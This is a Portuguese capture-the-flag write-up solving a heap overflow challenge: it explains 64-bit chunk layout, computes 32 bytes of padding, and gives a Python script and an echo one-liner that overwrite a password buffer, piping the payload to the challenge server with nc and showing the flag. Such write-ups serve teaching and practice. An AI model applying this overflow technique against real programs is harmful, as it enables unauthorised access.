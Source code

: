 Vemos que ele é um ELF 64-bit. Portanto, cada elemento do cabeçalho terá 8 bytes e o conteúdo terá um tamanho multiplo de 16 bytes.

De acordo com o código-fonte, as alocações tem os seguintes tamanhos:

```
buffer = (char *) malloc(8 * sizeof(char));
password = (int *) malloc(4 * sizeof(int));
```

O buffer teria 8 bytes, mas como é alinhado a 16 bytes, então ele terá 16 bytes (arredonda para o multiplo de 16 mais próximo). Já o password são 16 bytes, então já está alinhado. Portanto, a organização dessas alocações na heap é a seguinte:

```
+----------+
| prev_size| (8 bytes)
+----------+
|   size   | (8 bytes)
+----------+
|  buffer  | (16 bytes)
+----------+
| prev_size| (8 bytes)
+----------+
|   size   | (8 bytes)
+----------+
| password | (16 bytes)
+----------+
```

Para começarmos a sobrescrever o campo password, precisamos preencher o buffer (16 bytes) e os dois campos de cabeçalho (2 de 8 bytes), totalizando 32 bytes. A partir daí, temos que escrever os inteiros da senha dada pelo código-fonte em little-endian. Podemos fazer isso com o seguinte script em Python:

```python
#!/usr/bin/env python3

# Pedaços do payload
padding = b'A' * 32
password1 = b'\x01\x00\x00\x00'
password2 = b'\x02\x00\x00\x00'
password3 = b'\x03\x00\x00\x00'
password4 = b'\x04\x00\x00\x00'
newline = b'\n'    # Sugerido pelo chall para evitar problemas com o servidor

# Escreve em um arquivo
f = open("exploit.txt", "wb")
f.write(padding + password1 + password2 + password3 + password4)
f.close()
```

Enviado para o servidor:

```
cat exploit.txt | nc [insira o servidor e a porta aqui]
Parabens!
Ganesh{y0ur_buff3r_1s_th3_buff3r_th4t_w1ll_p1erc3_th3_chunk5}
```

É possível fazer também com o echo, utilizando o seguinte comando:

```
echo -e "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00\x04\x00\x00\x00" | nc [insira o servidor e a porta aqui]
Parabens!
Ganesh{y0ur_buff3r_1s_th3_buff3r_th4t_w1ll_p1erc3_th3_chunk5}
```
